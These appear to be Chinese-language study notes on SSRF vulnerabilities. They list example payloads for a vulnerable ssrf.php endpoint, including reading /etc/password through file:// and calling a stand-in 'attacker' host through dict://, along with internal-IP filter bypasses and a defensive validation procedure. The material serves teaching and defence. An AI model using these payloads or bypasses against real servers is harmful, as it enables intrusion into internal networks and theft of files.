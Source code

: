 接受ua为curl的时候，支持的协议有
![](https://www.secpulse.com/wp-content/uploads/2018/04/15235056451.png)

使用`curl -v http://xx.com/ssrf.php?url=sxxx`
```
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```

#### 漏洞修复
> https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html

1. 检查是否为内网IP地址
绕过方法:
    利用八进制IP地址绕过
    利用十六进制IP地址绕过
    利用十进制的IP地址绕过
    利用IP地址的省略写法绕过
最好的做法：IP地址转换为整数再进行判断

2. 获取真正请求的host

    1. 如何正确的获取用户输入的URL的Host？
    最常见的就是，使用http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误，有很多程序员甚至会用正则去解析URL。使用urllib.parse可以解析真正的hostname
    
    2. 只要Host只要不是内网IP即可吗？
    host可能为ip,可能为域名，利用xip.io绕过。方法：判断是否为http协议，获取url的host，再解析该host，将解析到的ip再进行检查
    
    3. 只要Host指向的IP不是内网IP即可吗？
    不一定，可能会30x跳转
    
归纳
解析目标URL，获取其Host
解析Host，获取Host指向的IP地址
检查IP地址是否为内网IP
请求URL
如果有跳转，拿出跳转URL，执行1



### 在浏览器端，Referer可以篡改吗？
通过插件修改，一般抓包修改

### xss盲打到内网服务器的利用

